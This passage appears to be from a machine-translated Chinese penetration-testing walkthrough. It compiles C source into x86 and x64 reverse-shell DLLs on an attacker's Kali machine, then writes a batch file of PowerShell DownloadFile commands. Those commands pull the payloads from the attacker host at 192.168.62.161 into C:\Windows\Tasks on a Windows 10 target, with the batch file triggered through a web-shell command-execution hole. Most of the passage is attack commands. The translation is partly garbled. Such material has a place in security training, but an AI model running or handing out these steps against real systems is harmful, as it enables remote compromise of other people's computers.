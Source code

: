 5.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

将 C 源代码编译成 Windows x86 en x64 reverse shell。dll 二进制文件。

```
# x86
i686-w64-mingw32-gcc testdll.c -shared -o /tmp/rev-x86.dll

# x64
x86_64-w64-mingw32-gcc testdll.c -shared -o /tmp/rev-x64.dll
```

![](img/d00f037645bb7e705095d4395766f038.png)

# 将二进制文件传输到目标

下一步是将 Windows 二进制文件转移到目标 Windows 10 计算机上。因为起点是通过 web shell 远程执行代码，所以我们还不能交互式访问我们的目标。为了传输文件，我们需要利用‘命令执行’漏洞。

我们将分两步转移文件:

*   向批处理文件添加复制命令(backup.bat)
    -下载并执行批处理文件

我们将把 are 文件复制到始终可用且可写的目标目录 C:\Windows\Tasks。

6.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

创建包含 PowerShell 复制文件命令的 Windows 批处理文件。我们将继续使用 32 位版本。

```
LHOST=192.168.62.161
LPORT_web=80
file1=rev-x86.dll
file2=rev-x86.exe
echo START /B powershell -c "(New-Object System.Net.Webclient).DownloadFile('http://${LHOST}:${LPORT_web}/${file1}','C:\Windows\Tasks\\\\${file1}')" > /tmp/backup.bat
echo START /B powershell -c "(New-Object System.Net.Webclient).DownloadFile('http://${LHOST}:${LPORT_web}/${file2}','C:\Windows\Tasks\\\\${file2}')" >> /tmp/backup.bat
```

![](img/07390056348d7b0b9e5638c6608cd94a.png)
